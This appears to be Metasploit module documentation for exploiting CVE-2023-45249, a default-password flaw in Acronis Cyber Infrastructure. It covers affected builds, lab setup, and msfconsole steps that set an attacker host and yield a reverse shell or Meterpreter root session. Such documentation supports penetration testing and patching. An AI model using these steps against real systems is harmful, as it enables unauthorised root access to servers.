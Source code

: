 ## Vulnerable Application
Acronis Cyber Infrastructure (ACI) is an IT infrastructure solution that provides storage, compute, and network resources.
Businesses and Service Providers are using it for data storage, backup storage, creating and managing virtual machines and
software-defined networks,running cloud-native applications in production environments.
This module exploits a default password vulnerability in ACI which allow an attacker to access the ACI PostgreSQL database
and gain administrative access to the ACI Web Portal.
This opens the door for the attacker to upload ssh keys that enables root access to the appliance/server.

This attack can be remotely executed over the WAN as long as the PostgreSQL and SSH services are exposed to the outside world.
ACI versions `5.0` before build `5.0.1-61`, `5.1` before build `5.1.1-71`, `5.2` before build `5.2.1-69`, `5.3` before build `5.3.1-53`,
and `5.4` before build `5.4.4-132` are vulnerable.

The following release was tested.

**Acronis Cyber Infrastructure ISO appliances:**
* Acronis Cyber Infrastructure 4.7

## Installation steps to install the Acronis Cyber Infrastructure (ACI) appliance
* Install your favorite virtualization engine (VMware or VirtualBox) on your preferred platform.
* Here are the installation instructions for [VirtualBox on MacOS](https://tecadmin.net/how-to-install-virtualbox-on-macos/).
* Download [ACI iso image](https://care.acronis.com/s/article/63431-Acronis-Cyber-Infrastructure-how-to-download-ISO?language=en_US).
* Install the iso image in your virtualization engine.
* When installed, configure the VM appliance to your needs using the menu options.
* Boot up the VM and should be able to access the Acronis Cyber Infrastructure (ACI) appliance either thru the console, `ssh` on port `22`
* or via the `webui` via `http://your_aci_ip:8888`.

You are now ready to test the module.

## Verification Steps
- [ ] Start `msfconsole`
- [ ] `exploit/linux/http/acronis_cyber_infra_cve_2023_45249`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ]  `set lhost <attacker-ip>`
- [ ] `set target <0=Unix/Linux Command, 1=Interactive SSH>`
- [ ] `exploit`
- [ ] you should get a `reverse shell` or `Meterpreter` session depending on the `payload` and `target` settings

## Options
